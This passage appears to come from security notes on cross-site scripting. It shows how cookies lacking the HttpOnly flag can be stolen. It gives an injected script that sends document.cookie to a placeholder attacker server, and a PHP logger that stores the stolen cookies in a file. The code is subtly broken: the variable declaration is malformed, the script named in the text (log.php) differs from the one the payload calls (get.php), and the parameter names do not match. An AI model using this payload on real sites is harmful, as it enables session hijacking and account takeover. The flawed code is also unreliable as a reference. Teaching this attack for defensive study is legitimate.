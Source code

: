 * JavaScript can steal cookies if they do not have the **HttpOnly flag** enabled; this means that an XSS attack can
be used to steal the cookies.

`<script>alert(document.cookie)</script>`

with the following code,you can send cookies content to an attacker-controlled site.

```
<script>
var = new Image();
i.src = "http://ip_del_atacante/get.php?cookies="+document.cookie;
</script>
```
The scripts generate an image object and points its `src` to script on the attacker's server(attacker.site)

The `log.php` script saves the cookie in a text file on the attacker.site
```
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename,'a');
$cookie=$_GET['q'];
fwrite($fp,$cookie);
fclose($fp);
?>
```
